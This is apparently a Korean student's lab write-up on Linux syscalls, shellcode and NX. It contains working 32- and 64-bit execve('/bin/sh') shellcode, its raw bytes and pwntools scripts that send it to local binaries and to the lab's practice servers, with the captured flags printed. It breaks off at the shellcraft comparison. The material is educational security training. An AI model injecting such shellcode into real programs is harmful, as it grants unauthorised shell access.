


<article class="page sans notion-pwn-article" id="40dccf0f-0989-8010-8803-d0b8874330aa">
<aside class="block-color-gray_background callout" data-notion-callout="" data-notion-callout-background="gray_background" dir="ltr" id="40dccf0f-0989-80e0-8737-f5308f44df56" style="white-space:pre-wrap;display:flex">
<h2 class="" dir="auto" id="40dccf0f-0989-8081-a87c-cce968cb06d2"><strong>목표</strong></h2><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8088-8308-f82e85799715"><li style="list-style-type:disc">Linux syscall 호출 규약을 이해하고 shellcode를 작성하여 원하는 동작을 수행할 수 있으며, NX가 코드 실행 공격에 미치는 영향을 설명할 수 있다.</li></ul>

<h2 id="40dccf0f-0989-8047-949b-d3482d9bfd5e" style="display:inline-block"><strong>알아두면 좋은 내용</strong></h2>

<ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8044-a31b-cee1a7c2b4e7"><li style="list-style-type:disc">System Call<ul class="bulleted-list" dir="auto" id="40dccf0f-0989-800f-890d-c2fc8c9f2459"><li style="list-style-type:circle">User Mode와 Kernel Mode</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8022-9bd3-e92f8c42fd20"><li style="list-style-type:circle">System Call이 필요한 이유</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80e4-a08a-c801114eba26"><li style="list-style-type:circle">libc 함수와 System Call의 차이</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80e3-99ca-dfe700e701da"><li style="list-style-type:circle">System Call Number</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80ea-ba3e-c40a8aff5ab3"><li style="list-style-type:circle">System Call Argument</li></ul></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80df-947d-f0da1de7bc17"><li style="list-style-type:disc">x86 / x86-64 System Call<ul class="bulleted-list" dir="auto" id="40dccf0f-0989-806c-9457-c3245b8c8b31"><li style="list-style-type:circle">32bit:<ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80a5-aa95-ff4d55311d8e"><li style="list-style-type:square"><code>int 0x80</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80c9-abbc-e370436aa13b"><li style="list-style-type:square"><code>EAX</code>: syscall number</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8040-be50-c2a019af2c19"><li style="list-style-type:square">주요 Argument Register</li></ul></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80f6-b8d7-e2639b80120c"><li style="list-style-type:circle">64bit:<ul class="bulleted-list" dir="auto" id="40dccf0f-0989-801e-ae24-f6c3307604fa"><li style="list-style-type:square"><code>syscall</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80d4-bc17-fd0a32f7af36"><li style="list-style-type:square"><code>RAX</code>: syscall number</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80a4-97af-d975b6cea1ee"><li style="list-style-type:square"><code>RDI</code>, <code>RSI</code>, <code>RDX</code>, <code>R10</code>, <code>R8</code>, <code>R9</code></li></ul></li></ul></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80a2-8f3b-dc2a748af555"><li style="list-style-type:disc">주요 System Call<ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8089-850a-fadf6a1ebadc"><li style="list-style-type:circle"><code>read</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-803a-a593-cb148690cfc5"><li style="list-style-type:circle"><code>write</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8090-badb-dc9bdc127ca4"><li style="list-style-type:circle"><code>open</code> / <code>openat</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80c5-a88d-f7f5b96d1809"><li style="list-style-type:circle"><code>execve</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80b8-8579-d5c9b9f841e3"><li style="list-style-type:circle"><code>exit</code></li></ul></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8080-809a-d5b05608e410"><li style="list-style-type:disc">Shellcode<ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80fe-958b-e0fc04c60c36"><li style="list-style-type:circle">Shellcode의 정의</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8035-9150-d9cdc77181dd"><li style="list-style-type:circle">Assembly를 기계어로 변환하는 과정</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80d5-9460-fa60a6c0390c"><li style="list-style-type:circle">NULL Byte 등 입력 제약</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80a9-ad87-efd75bf030c8"><li style="list-style-type:circle"><code>/bin/sh</code> 문자열 구성</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-800a-b99d-fcf8869aa12d"><li style="list-style-type:circle"><code>execve("/bin/sh", ...)</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8019-aaf8-fe498df4f537"><li style="list-style-type:circle">pwntools <code>asm()</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-800c-ad72-f856b0cf1e83"><li style="list-style-type:circle">pwntools <code>shellcraft</code></li></ul></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8036-9c39-da7bfdf00a01"><li style="list-style-type:disc">NX<ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80b8-b3ad-e45d1f58e76a"><li style="list-style-type:circle">실행 권한과 메모리 Permission<ul class="bulleted-list" dir="auto" id="40dccf0f-0989-800b-b852-cf173a5dd606"><li style="list-style-type:square"><code>R</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80b1-924b-f33c2ce6b066"><li style="list-style-type:square"><code>W</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80d0-b23e-deecd5ed55f4"><li style="list-style-type:square"><code>X</code></li></ul></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80c5-91dd-eda93aee85d6"><li style="list-style-type:circle">NX가 Writable Memory에서의 코드 실행을 막는 원리</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80e3-9b30-edf725b360ed"><li style="list-style-type:circle">Stack에서 Shellcode 실행이 가능한 경우와 불가능한 경우</li></ul></li></ul>

<h2 class="" dir="auto" id="40dccf0f-0989-8038-9065-d31b6647d7e4"><strong>실습</strong></h2><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8082-9e7b-dd60e6415bd4"><li style="list-style-type:disc">실습 1 — 쉘코드 작성<ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8054-8341-cfdc0478253a"><li style="list-style-type:circle">문자 배열을 함수 포인터로 해당 함수를 실행하는 프로그램이 32비트(<code>sekurity_pwn_03/shell_32</code>), 64비트(<code>sekurity_pwn_04/shell_64</code>)로 각각 주어진다.</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-809d-bbe8-c1ab71a78e2e"><li style="list-style-type:circle"><code>execve("/bin/sh", NULL, NULL)</code>을 호출하는 쉘코드를 본인이 어셈블리어로 직접 작성하고, 위 바이너리에 입력을 하여 쉘을 얻는다.</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8031-b015-cc9cf5e1d18d"><li style="list-style-type:circle">이를 아래의 서버에서도 동일하게 진행하여, 플래그를 획득한다.</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8080-bbee-d58a14f7648d"><li style="list-style-type:circle">본인이 작성한 shellcode와 pwntools에서 제공하는 쉘코드 ( <code>shellcraft.sh()</code> )를 비교해 본다.</li></ul></li></ul>
⇒ shell_32 서버:
<link crossorigin="anonymous" href="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/themes/prism.min.css" integrity="sha512-tN7Ec6zAFaVSG3TpNAKtk4DOHNpSwKHxxrsiw4GHKESGPs5njn/0sMCUMl2svV4wo4BK/rCP7juYz+zx+l6oeQ==" referrerpolicy="no-referrer" rel="stylesheet"/><pre class="code code-wrap" id="40dccf0f-0989-80ed-96f1-d9bfd079d6a0"><code style="white-space:pre-wrap;word-break:break-all">nc sekurity.o-r.kr 21549</code></pre>
⇒ shell_64 서버:
<pre class="code code-wrap" id="40dccf0f-0989-8000-9ad3-c89fc544db2a"><code style="white-space:pre-wrap;word-break:break-all">nc sekurity.o-r.kr 39921</code></pre><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8047-9a34-da7ef518093d"><li style="list-style-type:disc">실습 2 — NX bit의 유무와 쉘코드<ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80d9-a796-e127a3b4c93a"><li style="list-style-type:circle">sekurity_pwn_03 혹은 sekurity_pwn_04안에 있는 shell.c를 NX bit 활성화, 비활성화로 각각 컴파일을 하고 실습 1과 같이 하여 쉘을 얻어본다.</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-807d-8906-f54d74997f88"><li style="list-style-type:circle">쉘이 열린다면 되는 이유를, 안 열린다면 안 되는 이유를 각각 분석하여 설명한다.</li></ul></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8053-ae69-d426ed4c1e46"><li style="list-style-type:disc">실습 3 — seccomp<ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8024-b22c-c7582de4f7ba"><li style="list-style-type:circle"><code>sekurity_pwn_05/seccomp</code> 바이너리는 seccomp로 <code>execve</code>와 <code>execveat</code> syscall이 금지돼있지만, 실습 1과 같이 여전히 직접 어셈블리어를 작성하여 실행할 수 있다.</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80fe-b268-f8a742b75e84"><li style="list-style-type:circle">위 상황에서 플래그를 알아내야 한다.</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8024-8594-cc836d939600"><li style="list-style-type:circle">flag는 <code>/seKUrity/flag.txt</code>에 위치해있다.</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80d3-8615-c5c13a609709"><li style="list-style-type:circle">위 문제를 본인이 직접 어셈블리어를 코딩하여 푼 Write-Up과 shellcraft를 이용한 Write-Up으로 총 두 가지 버전으로 작성한다.</li></ul></li></ul>
⇒ seccomp서버:
<pre class="code code-wrap" id="40dccf0f-0989-80fb-a698-c80004d832fe"><code style="white-space:pre-wrap;word-break:break-all">nc sekurity.o-r.kr 46140</code></pre>
</aside>

개념

<h3 class="" dir="auto" id="40dccf0f-0989-8055-b255-d5b3f24e68b0">1. System Call</h3><h4 class="" dir="auto" id="40dccf0f-0989-809d-a64b-eba453e4d512">1-1. User Mode와 Kernel Mode</h4><h4 class="" dir="auto" id="40dccf0f-0989-80c3-8d40-d424cbab8468">1-2. System Call이 필요한 이유</h4><h4 class="" dir="auto" id="40dccf0f-0989-80ae-b0cf-ea3ab7ce3bec">1-3. libc 함수와 System Call의 차이</h4><h4 class="" dir="auto" id="40dccf0f-0989-8039-ac45-df9f5a55e562">1-4. System Call Number</h4><h4 class="" dir="auto" id="40dccf0f-0989-8049-9cb0-d540198207d2">1-5. System Call Argument</h4><h3 class="" dir="auto" id="40dccf0f-0989-8055-bac8-cbf64bb2ec26">2. x86 / x86-64 System Call</h3><h4 class="" dir="auto" id="40dccf0f-0989-80eb-8194-f96f3bbd3897">2-1. 32bit</h4><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-802a-927f-c9eef75aad84"><li style="list-style-type:disc"><code>int 0x80</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80f7-b770-f2e7278c73f3"><li style="list-style-type:disc"><code>EAX</code>: syscall number</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-805e-a798-f52118b9b743"><li style="list-style-type:disc">주요 Argument Register</li></ul><h4 class="" dir="auto" id="40dccf0f-0989-80c7-b6f5-f3b734d2f0f8">2-2. 64bit</h4><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8015-a015-d05c3e712e1a"><li style="list-style-type:disc"><code>syscall</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80fc-9337-db888dddaf84"><li style="list-style-type:disc"><code>RAX</code>: syscall number</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8023-bde0-d400393f673a"><li style="list-style-type:disc"><code>RDI</code>, <code>RSI</code>, <code>RDX</code>, <code>R10</code>, <code>R8</code>, <code>R9</code></li></ul><h4 class="" dir="auto" id="40dccf0f-0989-808f-8070-c52f3961516c">2-3. 주요 System Call</h4><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8089-b4fa-dd92efac16b7"><li style="list-style-type:disc"><code>read</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80d7-952d-e3e06436243f"><li style="list-style-type:disc"><code>write</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80ca-a5f4-ccb3e0f33d2b"><li style="list-style-type:disc"><code>open</code> / <code>openat</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8022-813a-f0d0f989d813"><li style="list-style-type:disc"><code>execve</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8031-89bd-f7e6110acca6"><li style="list-style-type:disc"><code>exit</code></li></ul><h4 class="" dir="auto" id="40dccf0f-0989-8016-b8db-f18575093b35">2-4. Shellcode</h4><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80e2-b7ea-f808f14478bd"><li style="list-style-type:disc">Shellcode의 정의</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80dc-a4fb-de659870acd4"><li style="list-style-type:disc">Assembly를 기계어로 변환하는 과정</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80d9-b89b-ef11e236a344"><li style="list-style-type:disc">NULL Byte 등 입력 제약</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-806b-89dc-d0d3e4ad0a53"><li style="list-style-type:disc"><code>/bin/sh</code> 문자열 구성</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8025-82ca-c0b08f830481"><li style="list-style-type:disc"><code>execve("/bin/sh", ...)</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80a8-837f-f69b057dbfcb"><li style="list-style-type:disc">pwntools <code>asm()</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8052-ada0-cc694179e4ea"><li style="list-style-type:disc">pwntools <code>shellcraft</code></li></ul><h4 class="" dir="auto" id="40dccf0f-0989-80a6-9632-f97d6b4a5740">2-5. NX</h4><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80b3-8df3-e3f169c5c06f"><li style="list-style-type:disc">실행 권한과 메모리 Permission<ul class="bulleted-list" dir="auto" id="40dccf0f-0989-802e-8cd1-d7f32adc3bca"><li style="list-style-type:circle"><code>R</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-800b-9aa1-e995b6703606"><li style="list-style-type:circle"><code>W</code></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80de-8b08-cbe2a31fc98f"><li style="list-style-type:circle"><code>X</code></li></ul></li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-8063-b477-fa1b533d0dd3"><li style="list-style-type:disc">NX가 Writable Memory에서의 코드 실행을 막는 원리</li></ul><ul class="bulleted-list" dir="auto" id="40dccf0f-0989-80c0-b510-e167cd62f377"><li style="list-style-type:disc">Stack에서 Shellcode 실행이 가능한 경우와 불가능한 경우</li></ul>

<h2 class="" dir="auto" id="40dccf0f-0989-803e-9311-dcac6cfabb5c">실습 1 - 쉘코드 작성</h2>

쉘코드란 무엇일까…

Shell code란 시스템의 특정 명령을 실행할 수 있는 &gt;기계어&lt; 코드이다. 이거 진짜 기계어다. 숫자만 있는 그 기계어라고.

[조건] 문자 배열을 함수 포인터로 해당 함수를 실행하는 프로그램이 32비트(<code>sekurity_pwn_03/shell_32</code>), 64비트(<code>sekurity_pwn_04/shell_64</code>)로 각각 주어진다.
<h3 class="" dir="auto" id="40dccf0f-0989-80ef-bb88-ff656d3379e2">1-1. <code>execve("/bin/sh", NULL, NULL)</code>을 호출하는 쉘코드를 본인이 어셈블리어로 직접 작성하고, 위 바이너리에 입력을 하여 쉘을 얻는다.</h3><h4 class="" dir="auto" id="40dccf0f-0989-800d-827a-cf153a4f4611">32bit</h4>
주어진 코드는 다음과 같습니다.

init() 함수는 초기화 함수… 일단 넘어가.
<pre class="code code-wrap" data-notion-code-syntax="c" id="40dccf0f-0989-805f-a75a-f07857d0f995"><code class="language-c" style="white-space:pre-wrap;word-break:break-all">// gcc -m32 -z execstack -o shell_32 shell.c

#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;

void init() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
}

int main() {
  char buf[0x1000];

  init();

  write(1, "Your Code: ", 11);
  read(0, buf, 0x1000);

  ((void (*)())buf)();
}</code></pre>
main() 함수 부분을 보겠습니다.

buf 문자열에 0x1000(10진수 : 4096)만큼의 크기를 할당했습니다. 그 후 init()으로 초기화 후, write() 함수에서 Your Code: 라는 문자열을 출력합니다.

read() 함수에서 쓰기 모드로 0x1000만큼 버퍼에 값을 입력합니다. → BOF 발생 안 하넹… 아무래도. 
<pre class="code code-wrap" data-notion-code-syntax="c" id="40dccf0f-0989-8085-970b-da53101b1623"><code class="language-c" style="white-space:pre-wrap;word-break:break-all">int main() {
  char buf[0x1000];

  init();

  write(1, "Your Code: ", 11);
  read(0, buf, 0x1000);

  ((void (*)())buf)();
}</code></pre>
<code>((void (*)())buf)();</code> → char형인 buf 문자열을 (void (*)()) 형으로 명시적 형 변환. 즉, 그냥 문자열을 저장하는 buf를 실제 실행 가능한? 함수로 형 변환.

그러니까 buf에 입력된 문자열이 형 변환된 후 buf() 실행 시 함수로써 기능하게 됨.
<pre class="code code-wrap" data-notion-code-syntax="c" id="40fccf0f-0989-8014-ac1b-c149715b699a"><code class="language-c" style="white-space:pre-wrap;word-break:break-all">#include &lt;unistd.h&gt;

int main() {
    execve("/bin/sh", NULL, NULL);
}</code></pre>
위 코드를 작성하여 32비트로 컴파일한 후 gdb로 열었음. execve() 함수를 디스어셈블한 내용은 다음과 같습니다.
<figure class="image" data-notion-image="image.png" dir="ltr" id="40fccf0f-0989-8080-b406-f61f84830366"></figure>
이걸로… 어떻게 어떻게 어셈블리를 짜고… pwntools에 있는 asm() 함수를 이용해서 어셈블리 → 기계어로 변환하고… 그 담에 문제에 쉘코드를 넣으면 되겠지….

<a href="https://syscall.sh/x86/execve/">https://syscall.sh/x86/execve/</a>

→ 이 사이트에서 시스템콜할 때 시스템콜 함수에 인자가 어떻게 들어가는지? 알 수 있어용
<table class="simple-table" dir="ltr" id="414ccf0f-0989-80b9-9388-c42ac8d67daf"><thead class="simple-table-header"><tr dir="ltr" id="414ccf0f-0989-80d5-b514-d49f8ece280e"><th class="simple-table-header-color simple-table-header" id="&gt;EEm">register</th><th class="simple-table-header-color simple-table-header" id="goO&lt;">value</th></tr></thead><tbody><tr dir="ltr" id="414ccf0f-0989-80a7-b2c4-cd1ea906071a"><td class="" id="&gt;EEm"><code>eax</code></td><td class="" id="goO&lt;">11, the syscall number</td></tr><tr dir="ltr" id="414ccf0f-0989-8013-9dfd-ddd1e049bf16"><td class="" id="&gt;EEm"><code>ebx</code></td><td class="" id="goO&lt;">const char *filename</td></tr><tr dir="ltr" id="414ccf0f-0989-8069-a92f-e75fd2caa42a"><td class="" id="&gt;EEm"><code>ecx</code></td><td class="" id="goO&lt;">const char *const *argv</td></tr><tr dir="ltr" id="414ccf0f-0989-809b-a2d5-c143ba616d3f"><td class="" id="&gt;EEm"><code>edx</code></td><td class="" id="goO&lt;">const char *const *envp</td></tr><tr dir="ltr" id="414ccf0f-0989-80b4-8f82-d7452f36be36"><td class="" id="&gt;EEm"><code>eax</code></td><td class="" id="goO&lt;">the return value</td></tr></tbody></table>
execve("/bin/sh", NULL, NULL)를 호출하는 어셈블리를 먼저 작성해보겠습니다.
<pre class="code code-wrap" data-notion-code-syntax="bash" id="414ccf0f-0989-80e8-bf21-cbf06af91819"><code class="language-bash" style="white-space:pre-wrap;word-break:break-all">스택 프레임은 스택 자료구조의 후입선출 특징을 가지고 있으므로 위 execve 시스템콜 실행 시 필요한 레지스터 순의 역순으로 넣어줘야 함.
즉, ret 제외 edx(envp) -&gt; ecx(argv) -&gt; ebx(파일명) -&gt; eax(syscall 번호) 순

mov edx, 0x0 # 네 번째 인자 NULL
mov ecx, 0x0 # 세 번째 인자 NULL

push edx # 문자열 끝을 뜻하는 \0
push 0x68732f2f # 리틀 엔디언이므로 //sh -&gt; hs//
push 0x6e69622f # 리틀 엔디언이므로 /bin -&gt; nib/
hs//nib/

mov ebx, esp # esp가 가리키는 번지의 값(/bin//sh\0)을 첫 번째 인자인 ebx에 복사
mov eax, 0xb # execve() syscall 번호 : 11(16진수 : 0xb)
int 0x80 # 시스콜 실행?하는 넘</code></pre>
위처럼 작성할 수 있습니다.

edx와 ecx에 NULL을 넣어주고, push 0x68732f2f, push 0x6e69622f로 /bin//sh 문자열을 스택에 push합니다. (이때 /sh가 아닌 //sh를 하는 이유는 8바이트를 맞춰주기 위함)

int 0x80으로 시스템 콜을 실행.

이 어셈블리를 pwntools의 asm() 함수를 사용해서 기계어로 변환합니다.
<pre class="code code-wrap" data-notion-code-syntax="python" id="414ccf0f-0989-80b0-86f5-cfd7da94bf0e"><code class="language-python" style="white-space:pre-wrap;word-break:break-all">print(asm('mov edx, 0x0\n mov ecx, 0x0\n push edx\n push 0x68732f2f\n push 0x6e69622f\n mov ebx, esp\n mov eax, 0xb\nint 0x80'))</code></pre>
출력 결과 :
<pre class="code code-wrap" data-notion-code-syntax="bash" id="414ccf0f-0989-806c-8cfd-da91ee21891e"><code class="language-bash" style="white-space:pre-wrap;word-break:break-all">b'\xba\x00\x00\x00\x00\xb9\x00\x00\x00\x00Rh//shh/bin\x89\xe3\xb8\x0b\x00\x00\x00\xcd\x80'</code></pre>
이제 이 기계어를 입력해주믄 됨…. 어떻게…? ./shell_32 해서 나오는 Your Code: 다음에 쉘코드를 입력하면 실행이 안됩니다. 왜냐면 쉘코드를 입력한 게 아니라… 그냥 문자열을 입력한 것이기 때문…?

그래서 다음 명령어를 터미널에 입력해주면 됩니다. (shell_32 바이너리가 있는 경로에서 명령어 실행)
<pre class="code code-wrap" data-notion-code-syntax="bash" id="414ccf0f-0989-808f-ba4f-ebf1ba74079e"><code class="language-bash" style="white-space:pre-wrap;word-break:break-all">(printf '\xba\x00\x00\x00\x00\xb9\x00\x00\x00\x00\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb8\x0b\x00\x00\x00\xcd\x80'; cat) | ./shell_32</code></pre>
터미널에서 직접 해보겠습니다.
<figure class="image" data-notion-image="image%201.png" dir="ltr" id="414ccf0f-0989-80f5-9689-d2b8250239c6"></figure>
오 신기신기 쉘을 얻었어욥

리눅스 명령어가 먹힙니다.

오 pwntools로 작성하깅… 실행할 때 경로가 잘못되진 않았는지 확인하기…
<pre class="code code-wrap" data-notion-code-syntax="python" id="414ccf0f-0989-80fe-9d4a-f4562afeb06c"><code class="language-python" style="white-space:pre-wrap;word-break:break-all">from pwn import *

context.arch = 'i386'

p = process('./shell_32')

code = """
mov edx, 0x0
mov ecx, 0x0

push edx
push 0x68732f2f
push 0x6e69622f

mov ebx, esp
mov eax, 0xb
int 0x80"""

p.sendafter(b'Your Code: ', asm(code))
p.interactive()</code></pre><figure class="image" data-notion-image="image%202.png" dir="ltr" id="414ccf0f-0989-8061-bda4-fbf890a70407"></figure><h4 class="" dir="auto" id="40dccf0f-0989-8029-81c7-d9c34e503b4a">64bit</h4>
주어진 코드는 다음과 같습니다. 32bit와 똑같은 듯.
<pre class="code code-wrap" data-notion-code-syntax="c" id="414ccf0f-0989-80b3-807a-cc32b538a702"><code class="language-c" style="white-space:pre-wrap;word-break:break-all">// gcc -z execstack -o shell_64 shell.c

#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;

void init() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
}

int main() {
  char buf[0x1000];

  init();

  write(1, "Your Code: ", 11);
  read(0, buf, 0x1000);

  ((void (*)())buf)();
}</code></pre>
일단 64bit니까 레지스터랑… execve() 시스콜 번호 등이 다를 듯허이.

<a href="https://syscall.sh/x64/execve/">https://syscall.sh/x64/execve/</a> 해당 사이트에서 execve() 시스콜의 인자는 다음 표와 같습니다.
<table class="simple-table" dir="ltr" id="414ccf0f-0989-80b4-9812-e2fac2801eb9"><thead class="simple-table-header"><tr dir="ltr" id="414ccf0f-0989-8045-8804-dfa0384a92b5"><th class="simple-table-header-color simple-table-header" id="tPMb">register</th><th class="simple-table-header-color simple-table-header" id="F~e&lt;">value</th></tr></thead><tbody><tr dir="ltr" id="414ccf0f-0989-804b-a421-d25df7988d19"><td class="" id="tPMb"><code>rax</code></td><td class="" id="F~e&lt;">59, the syscall number</td></tr><tr dir="ltr" id="414ccf0f-0989-80d7-9640-c1f8f81a0761"><td class="" id="tPMb"><code>rdi</code></td><td class="" id="F~e&lt;">const char *filename</td></tr><tr dir="ltr" id="414ccf0f-0989-806f-9679-d95950692ed7"><td class="" id="tPMb"><code>rsi</code></td><td class="" id="F~e&lt;">const char *const *argv</td></tr><tr dir="ltr" id="414ccf0f-0989-8074-8686-f7d73ec295fa"><td class="" id="tPMb"><code>rdx</code></td><td class="" id="F~e&lt;">const char *const *envp</td></tr><tr dir="ltr" id="414ccf0f-0989-8070-aaea-c727b75c9131"><td class="" id="tPMb"><code>rax</code></td><td class="" id="F~e&lt;">the return value</td></tr></tbody></table>
pwntools를 통해 코드를 작성하면 다음과 같습니다.
<pre class="code code-wrap" data-notion-code-syntax="python" id="414ccf0f-0989-8038-ae5b-f4a5e49d675e"><code class="language-python" style="white-space:pre-wrap;word-break:break-all">from pwn import *

context.arch = 'amd64' # x86 아키텍처의 64비트 기계어를 생성하도록

p = process('./shell_64')

code = """
mov rdx, 0x0
mov rsi, 0x0

push rdx
mov rbx, 0x68732f2f6e69622f
push rbx

mov rdi, rsp
mov rax, 0x3b
syscall
"""

p.sendafter(b'Your Code: ', asm(code))
p.interactive()</code></pre><figure class="image" data-notion-image="image%203.png" dir="ltr" id="414ccf0f-0989-804e-bddc-d002f606bed6"></figure>
야호 성공
<h3 class="" dir="auto" id="40dccf0f-0989-805f-aefa-cd2a6cf7e8dd">1-2. 아래의 서버에서도 동일하게 진행하여, 플래그를 획득</h3>
shell_32 서버 :
<pre class="code code-wrap" id="40dccf0f-0989-8067-8135-cfb68793f896"><code style="white-space:pre-wrap;word-break:break-all">nc sekurity.o-r.kr 21549</code></pre>
앞선 실습 문제에서 사용했던 코드에서 process() 부분만 remote()로 변경
<pre class="code code-wrap" data-notion-code-syntax="python" id="414ccf0f-0989-80bc-9ee5-dd4fdf6ab29f"><code class="language-python" style="white-space:pre-wrap;word-break:break-all">from pwn import *

context.arch = 'i386' # x86 아키텍처의 32비트 기계어를 생성

p = remote('sekurity.o-r.kr', 21549)

code = """
mov edx, 0x0
mov ecx, 0x0

push edx
push 0x68732f2f
push 0x6e69622f

mov ebx, esp
mov eax, 0xb
int 0x80"""

p.sendafter(b'Your Code: ', asm(code))
p.interactive()</code></pre>
ls 하면 flag 파일이 있는 걸 확인할 수 있고, cat flag로 플래그 내용을 출력할 수 있습니다.
<figure class="image" data-notion-image="image%204.png" dir="ltr" id="414ccf0f-0989-80b6-bdde-c9c308283485"></figure><h4 class="" dir="auto" id="414ccf0f-0989-80ab-a391-fbbbb9b92f95"><mark class="highlight-teal" data-notion-highlight="teal">FLAG : seKUrity{615ad33e6a1468021907cbf07bcef85d}</mark></h4>
shell_64 서버 :
<pre class="code code-wrap" id="40dccf0f-0989-804b-be45-fb25ca920ab0"><code style="white-space:pre-wrap;word-break:break-all">nc sekurity.o-r.kr 39921</code></pre>
아까와 같이 위 실습 문제 풀 때 작성했던 코드에서 process()를 remote()로 변경
<pre class="code code-wrap" data-notion-code-syntax="python" id="414ccf0f-0989-8060-99c2-e0ecc9c984c4"><code class="language-python" style="white-space:pre-wrap;word-break:break-all">from pwn import *

context.arch = 'amd64' # x86 아키텍처의 64비트 기계어를 생성하도록

p = remote('sekurity.o-r.kr', 39921)

code = """
mov rdx, 0x0
mov rsi, 0x0

push rdx
mov rbx, 0x68732f2f6e69622f
push rbx

mov rdi, rsp
mov rax, 0x3b
syscall
"""

p.sendafter(b'Your Code: ', asm(code))
p.interactive()</code></pre>
실행 후 ls를 입력하면 flag 파일이 있는 것을 확인할 수 있습니다. cat flag로 플래그 파일 내용을 출력했습니다.
<figure class="image" data-notion-image="image%205.png" dir="ltr" id="414ccf0f-0989-80f5-83ba-c797e5902aee"></figure><h4 class="" dir="auto" id="414ccf0f-0989-8028-a4be-f062273c055b"><mark class="highlight-teal" data-notion-highlight="teal">FLAG : seKUrity{da3917475ab3fe4cda88d290ee94b3e1}</mark></h4><h3 class="" dir="auto" id="40dccf0f-0989-8069-b87f-c454a66d400a">1-3. 본인이 작성한 shellcode와 pwntools에서 제공하는 쉘코드 ( <code>shellcraft.sh()</code> )를 비교</h3>
pwntoosl에는 shellcraft라는 shellcode를 자동으로 생성해주는 모듈이 있습니다. (내가 이때까지 작성한 쉘코드는…?)

